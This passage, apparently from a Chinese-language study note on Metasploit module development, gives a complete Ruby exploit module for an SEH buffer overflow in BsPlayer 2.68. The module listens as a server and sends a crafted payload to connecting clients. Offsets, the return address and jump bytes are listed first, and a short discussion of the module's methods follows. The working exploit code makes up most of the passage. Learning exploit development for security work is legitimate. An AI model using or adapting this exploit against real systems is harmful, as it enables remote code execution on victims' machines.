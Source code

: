 - 偏移量是2048
- PPR地址是0x0000583b
- 长跳转为"\xe9\x85\xe9\xff\xff"
- 短跳转为"\xeb\xf9\x90\x90"

需要注意的是，这个漏洞的触发方式与以往不同，需要攻击者首先开启监听，等待目标机器发来请求，然后再将payload发送给对方。我们的模块这次扮演server角色。

```ruby
class MetasploitModule < Msf::Exploit::Remote
	Rank = NormalRanking
	include Msf::Exploit::Remote::TcpServer
	
	def initialize(info = {})
	    super(update_info(info,
			'Name'		=> 'BsPlayer 2.68 SEH Overflow Exploit',
			'Description' => %q{
				Here's an example of Server Based Exploit
			},
			'Platform'	=> 'win',
			'Author' => 'Rambo',
			'Targets'	=> [ 
						['Generic', {'Ret' => 0x0000583b, 'Offset' => 2048}]
					   ],
			'Payload'       => {
						'Space' => 500,
						'BadChars' => "\x20\x0a\x0d\x00"
						},
			'DisclosureDate' => 'Mar 24 2015'
		))
	end
	def on_client_connect(client)
		return if ((p = regenerate_payload(client)) == nil)
		print_status("Client Connected")
		sploit = make_nops(target['Offset'])
		sploit << payload.encoded
		sploit << "\xcc" * (6787 - 2048 - payload.encoded.length)
		sploit << "\xe9\x85\xe9\xff\xff" # long jmp
		sploit << "\xeb\xf9\x90\x90" # short jmp
		sploit << [target.ret].pack('V')
		client.put(sploit)
		client.get_once
		client.put(sploit)
		handler(client)
		service.close_client(client)
	end
end
```

一开始我把`nil`错写成了`null`，导致攻击失败。然而在载入模块时Metasploit竟然没有报错，但是在`irb`中写`a = null`会报错，这说明`null`应该是Metasploit定义的。

我们这次引入了`Msf::Exploit::Remote::TcpServer`，这也与扮演的角色相符。它会提供处理传入请求需要的方法和选项，如`SRVHOST`和`SRVPORT`等。用到的方法如`on_client_connect`和`client.put`等都很好理解，后者和上一章使用`Msf::Exploit::Remote::Tcp`的`sock.put`很像。我们借助`client.get_once`去保证数据分两次发送。*当数据分两次发送后，使用handler查找从渗透模块传回的会话*（所以handler的作用到底是什么？为什么本章第一个实验中不需要使用`handler`？）。
